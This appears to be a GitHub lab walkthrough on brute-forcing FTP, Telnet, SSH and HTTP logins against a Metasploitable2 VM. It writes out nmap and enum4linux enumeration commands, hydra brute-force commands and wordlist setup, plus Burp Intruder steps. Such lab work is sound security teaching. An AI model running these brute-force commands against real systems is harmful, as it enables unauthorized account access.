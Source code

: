 # 🛡️ Network Protocol Vulnerability Lab - Walkthrough

## 📌 Objective
The purpose of this lab is to simulate brute force attacks against common network services (**FTP**, **TELNET**, **SSH**, and **HTTP**), analyze the security of these protocols, capture and inspect network traffic, and propose security mitigations.

---

## 🖥️ Lab Environment Setup
- **Attacker VM:** Kali Linux 2024.4
- **Target VM:** Vulnerable Linux VM (Metasploitable2 / custom)
- **Tools Used:** Hydra, Burp Suite, Wireshark,

---

# 🧾 Task 1: Enumerate the Target

## 🎯 Goal
Identify valid usernames on the target VM.

## 1.1 Nmap scan
Performed an initial scan to discover open services.

---

## 🛠️ Commands Used
```bash
nmap -p 21,23,22,80 <target-ip> 
```

![image](https://github.com/user-attachments/assets/3003bcc5-bfd0-4b8f-b4e4-77baba25b8c5)

---

## 1.2 Enum4linux Enumeration
Since ports (21,23,22,80) are open, used enum4linux to gather more usernames.

---

## 🛠️ Commands Used
```bash
enum4linux -a <target-ip> 
```
![image](https://github.com/user-attachments/assets/d3aa5613-9725-45dc-9d5c-d2f50fb3ad5e)
![image](https://github.com/user-attachments/assets/2fd2d4d5-60fe-412f-b145-e07f3199bfc9)

---

# 🔐 Task 2: Brute Force Attacks

## ✅ Preparation

Before conducting brute-force attacks, prepare the following:

- **Username list** (`userlist.txt`)
- **Password list** (`passlist.txt`)

You can either:

- Use common lists available in Kali Linux, such as `/usr/share/wordlists/rockyou.txt`
- Or manually create a small custom list for testing:

```bash
echo -e "admin\nmsfadmin\nanonymous\nuser\ntest" > userlist.txt
echo -e "1234\nmsfadmin\nftp123\nadmin\npassword" > passlist.txt
```

---

## 2.1 FTP / TELNET / SSH
Use Hydra to perform brute force attacks against the services FTP, TELNET, and SSH.

---

## 🛠️ Example Hydra Commands

```bash
# Brute force FTP login
hydra -L /usr/share/wordlists/<file.txt> -P /usr/share/wordlists/<file.txt> ftp://<target-ip>

# Brute force TELNET login
hydra -L /usr/share/wordlists/<file.txt> -P /usr/share/wordlists/<file.txt> telnet://<target-ip>

# Brute force SSH login
hydra -L /usr/share/wordlists/<file.txt> -P /usr/share/wordlists/<file.txt> ssh://<target-ip>
```
![image](https://github.com/user-attachments/assets/3f148cad-802e-4a38-aa50-b542a588f5bd)

---

## 2.2 HTTP Login Page Attack (Burp Suite)
Steps:
- **Captured login request in Burp Proxy.**
- **Sent to Intruder.**
- **Configured payload positions for username and password.**
- **Loaded wordlists and launched attack.**
